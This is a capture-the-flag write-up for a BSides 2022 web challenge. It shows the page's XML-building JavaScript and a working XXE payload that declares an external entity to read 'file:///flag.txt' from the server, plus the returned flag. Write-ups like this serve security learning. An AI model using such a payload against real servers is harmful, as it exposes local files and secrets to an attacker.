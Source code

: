 ```yaml
---
title: bsides2022 – Extreme
tags: web xxe injection
---
```


## Challenge

> The system is full, everyone. Go home. We've already registered everyone.

The provided website is a registration form (fields `Name`, `Email`, `Password`) that always returns an error: `Sorry, [Email] is already registered!` with the entered email address.

## Solution

Looking at the source code of the website, when submitting the form, the following code is run:

```js
function XMLFunction(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<root>' +
        '<name>' + $('#name').val() + '</name>' +
        '<email>' + $('#email').val() + '</email>' +
        '<password>' + $('#password').val() + '</password>' +
        '</root>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;
        }
    }
    xmlhttp.open("POST","process.php",true);
    xmlhttp.send(xml);
};
```

This composes a XML file and sends it to `process.php`. Trying that in a REST client like [Insomnia](https://insomnia.rest), we see that all fields but `email` are ignored.

We can then construct a custom XML file that tries to load an other file on disk and includes that as the email address (because it then gets sent back to us):

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
<email>&xxe;</email>
</root>
```

This is called a [XXE (XML external entity attack)](https://en.wikipedia.org/wiki/XML_external_entity_attack).

And voilà, we get our flag:

```
Sorry, flag{bad_XML_ext3rnal_entiti3s} is already registered!
```

